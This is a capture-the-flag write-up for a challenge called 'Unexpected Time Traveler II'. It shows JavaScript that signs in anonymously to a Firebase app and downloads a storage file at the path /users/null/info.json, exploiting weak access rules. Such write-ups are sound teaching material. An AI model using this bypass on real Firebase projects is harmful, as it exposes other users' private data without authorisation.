 # Flag 2 - Bonus Unexpected Time Traveler II

1. In the description it is written *Guy Fawkes have accessed Biffco*. As *Guy Fawkes* mask is a symbol for *Anonymous group* log 
1. Create an anonymous.
    ```js
    firebase.auth().signInAnonymously();
    ```
1. Notice that the ``currentUser.email`` property is set to ``null``
1. Fetch the corresponding ``info.json`` following the previous flag logic
   ```js
    user = firebase.auth().currentUser;
    ref = firebase.storage().ref(`/users/null/info.json`)
    ref.getDownloadURL().then((url) => {
        fetch(url).then((resp) => 
            resp.json().then((json) => {
                console.log(json);
            })
        )
    })
   ```